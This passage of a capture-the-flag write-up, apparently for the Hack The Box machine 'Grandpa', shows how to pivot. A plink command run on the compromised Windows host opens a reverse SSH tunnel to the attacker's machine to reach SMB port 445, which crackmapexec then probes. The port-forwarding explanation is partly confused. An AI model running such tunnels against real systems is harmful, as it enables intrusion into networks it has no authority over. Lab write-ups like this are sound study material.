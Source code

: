 And on the windows machine:

```
C:\WINDOWS\Temp>plink.exe -l root -pw kali -R 445:127.0.0.1:445 -P 4222 10.10.14.21
plink.exe -l root -pw kali -R 445:127.0.0.1:445 -P 4222 10.10.14.21
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's rsa2 key fingerprint is:
ssh-rsa 3072 61:87:0f:1b:6c:bc:7e:c3:25:2c:03:c2:5e:f1:2f:22
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
```

-l root signals that the login user is root

-pw is the password for the login, you can do `sudo passwd` and type a new password twice to get this.

-R listen-port:host:port Here we are forwarding a Remote port to a local address. 

We know that the 445 port is open from the windows machine, but not our machine. So we are using the 445 port to send and receive this remote ssh connection. So the windows outgoing port 445 is received by our port 4222. And our 4222 can access the windows port 445. So we have circumvented the fact that we cannot access port 445. And our outgoing 4222 port essentially acts as an entrance to port 455 on the windows machine.

-P the target port

And finally our ip.

We can check that this worked with the command:

```
kali@kali:~/htb/Grandpa$ sudo lsof -i:445
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
sshd    6568 root    9u  IPv6  67950      0t0  TCP localhost:microsoft-ds (LISTEN)
sshd    6568 root   10u  IPv4  67951      0t0  TCP localhost:microsoft-ds (LISTEN)
kali@kali:~/htb/Grandpa$ 
```

Lsof means “list open files” the -i lists ip sockets, and here we are specifying to only list ip sockets on port 445.

We can now see if we can find any vulnerabilities with crackmapexec, which is specialized for attacking networks:

```
kali@kali:/opt/CrackMapExec$ cme smb 127.0.0.1
SMB         127.0.0.1       445    GRANPA           [*] Windows Server 2003 R2 3790 Service Pack 2 (name:GRANPA) (domain:GRANPA) (signing:False) (SMBv1:True)
kali@kali:/opt/CrackMapExec$ 
```
I specialize smb, since we have that connection. And we can see that we have access to port 445 on GRANPA.
